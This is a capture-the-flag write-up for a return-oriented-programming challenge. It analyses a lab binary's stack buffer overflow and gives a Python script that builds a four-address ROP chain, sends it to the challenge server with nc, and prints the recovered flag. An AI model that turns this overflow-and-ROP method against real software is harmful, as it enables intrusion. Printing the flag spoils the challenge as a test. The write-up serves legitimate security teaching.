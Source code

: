 ﻿# CSAW ALTERNATIVE WRITE UP
by Tilden Jackson (thjackso)

## r0p
The challenge prompt is:
>A vulnerable service is running at shell.hackcenter.dbrumley.com:37203. ROP your way to victory. The binary is also available for analysis in /problems/8ef084c4662a9eb56f99efe899d5729f on the shell server, and for download at [r0p](https://hackcenter.dbrumley.com/problems/b499aee469ea1db0b13465671837e8ea/r0p).

Well this is clearly a return-oriented-programming (ROP) attack. I created a false `./flag` file with some random values in it so that I could run it. If we run `./r0p` this is what we get:

![First Run of ./r0p](https://i.postimg.cc/LXJP3Nh4/firstRun.png)

Lets look at the binary.

The disassembled `<main>` function just sets up a call to `<check_flag>` and then `<vulnerable_function>`. Finally it finishes by writing something to `stdout` using `write`.

![Main Function Assembly](https://i.postimg.cc/j2QSH76d/main.png)

By the function names we will skip over `<check_flag>` and move right to `<vulnerable_function>`.

![Vulnerable Function Assembly](https://i.postimg.cc/2SqfmWqb/vuln.png)

`<vulnerable_function>` uses `read(stdin, char c, 1)` to write into a buffer: `buf[76] //@-0x50(rbp)` on the stack. But the read function can read up to `0x80` bytes of data and only terminates before that if it receives a newline character or there is no more input. We will use that vulnerability to exploit our binary and report the flag to us.

A rough psuedocode looks a little like this:
```
void vulnerable_function(){
	char c; //@-0x51(rbp)
	char buf[0x4c == 76]; //@-0x50(rbp)
	
	for (int i = 0; i <= 0x7f; i++){
		if ((read(0, c, 1) <= 0) || (c == '\n')){
			return;
		}
		buf[i] = c;
	}

}

int main(){
	check_flag();
	vulnerable_function();
	return 0;
}
```
We can easily write into the return address and even farther up the way to chain multiple returns together. The return address is `0x50+0x8 = 0x58` bytes away from the base of the buffer so we can write a total of `(0x80-0x58)/0x8 = 5 addresses` that we can chain together for our ROP attack.

Lets look at the functions in the binary just to get a feel of what we might want to do:
```
┌──(tildenjackson㉿TJ)-[~/hackcenter/csaw-alt]
└─$ cat r0p-dump.asm | grep "<[^>]*>:"
0000000000401000 <_init>:
0000000000401020 <write@plt-0x10>:
0000000000401030 <write@plt>:
0000000000401040 <printf@plt>:
0000000000401050 <lseek@plt>:
0000000000401060 <close@plt>:
0000000000401070 <read@plt>:
0000000000401080 <fflush@plt>:
0000000000401090 <open@plt>:
00000000004010a0 <exit@plt>:
00000000004010b0 <_start>:
00000000004010e0 <_dl_relocate_static_pie>:
00000000004010f0 <deregister_tm_clones>:
0000000000401120 <register_tm_clones>:
0000000000401160 <__do_global_dtors_aux>:
0000000000401190 <frame_dummy>:
0000000000401196 <call_second>:
0000000000401265 <call_first>:
0000000000401305 <vulnerable_function>:
0000000000401380 <die>:
00000000004013a7 <check_flag>:
000000000040145d <main>:
00000000004014a0 <_fini>:
``` 

Well there is `<call_first>` and `<call_second>`, so we can just try to chain those together. This is the call order we will have:
```
1. <call_first>
2. <call_second>
3. <die>
4. replace return address back to main
```
This is within our 5 address limit so we will be fine. 

Here is what our stacks will look like
```
Normally:
| Address relative to rbp  |  value |
-------------------------------------
| +0x08 | <main+35>:     0x401480   | return address 
-------------------------------------
| +0x00 | old(rbp)                  |
------------------------------------- <- rbp
| -0x04 | read() result             |
-------------------------------------
|       |                           |
| -0x50 | buf[0x4c]                 |
|       |                           |
-------------------------------------
| -0x51 | char c                    |
-------------------------------------
| -0x60 |                           |
------------------------------------- <- rsp

Exploit:
| Address relative to rbp | value |
-------------------------------------
| +0x20 | <main+35>:     0x401480   | return address 4 - return to old <main> return address
-------------------------------------
| +0x18 | <die>:         0x401380   | return address 3 - <die>
-------------------------------------
| +0x10 | <call_second>: 0x401196   | return address 2 - <call_second>
------------------------------------- 
| +0x08 | <call_first>:  0x401265   | return address 1 - <call_first>
-------------------------------------
| +0x00 | aaaaaaaa                  | old(rbp)
------------------------------------- <- rbp
| -0x04 | aaaa                      | read() result
-------------------------------------
|       |                           |
| -0x50 | aaaaaaaa...aaaaaaaa       | buf[0x4c]
|       |                           |
-------------------------------------
| -0x51 | char c                    |
-------------------------------------
| -0x60 |                           |
------------------------------------- <- rsp

Note that the addresses are in little endian so 0x401480 looks like: 
80 14 40 00 00 00 00 00
```


Writing a python script to write our exploit to a file we have:
```
#!/usr/bin/env python3
# file: exploit.py
import subprocess
import struct

padding = b"a"*0x58
rops = [0x401265, 0x401196, 0x401380, 0x401480]

print("Writting exploit...")

exploit = padding
print("Added 0x58 padding")
for ret in rops:
    print("Added return 0x{:x}".format(ret))
    exploit += struct.pack("<Q", ret)

exploit += b'\n'

with open("exploit.bin", "wb") as file:
    file.write(exploit)

file.close()
print("Done!\n")
print("Exploit:")
subprocess.run(["hexdump", "exploit.bin"])
```

We run this script to generate our string into `exploit.bin` and then we can report it to the netcat server:
```
┌──(tildenjackson㉿LENOVOLAPTOPTJ)-[~/hackcenter/csaw-alt]
└─$ python3 exploit.py
Writting exploit...
Added 0x58 padding
Added return 0x401265
Added return 0x401196
Added return 0x401380
Added return 0x401480
Done!

Exploit:
0000000 6161 6161 6161 6161 6161 6161 6161 6161
*
0000050 6161 6161 6161 6161 1265 0040 0000 0000
0000060 1196 0040 0000 0000 1380 0040 0000 0000
0000070 1480 0040 0000 0000 000a
0000079

┌──(tildenjackson㉿LENOVOLAPTOPTJ)-[~/hackcenter/csaw-alt]
└─$ cat exploit.bin | nc shell.hackcenter.dbrumley.com 37203
Loading first half of key...
Your key is: 2963a4da8fa9c880029560087a81fca2
```

This worked and we get the flag.
`flag: 2963a4da8fa9c880029560087a81fca2`
